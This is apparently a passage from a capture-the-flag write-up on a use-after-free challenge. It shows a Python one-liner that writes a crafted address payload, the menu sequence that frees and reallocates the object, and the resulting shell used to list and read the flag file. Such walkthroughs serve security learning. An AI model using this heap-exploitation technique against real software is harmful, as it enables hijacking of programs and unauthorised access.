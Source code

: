 ```bash
f@prowl:~$ python -c 'print "\x68\x15\x40\x00" + "\x00" * 4' > /tmp/human11 && ./uaf 24 /tmp/human11
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ ls
flag  uaf  uaf.cpp
$ cat flag
```

フラグゲット
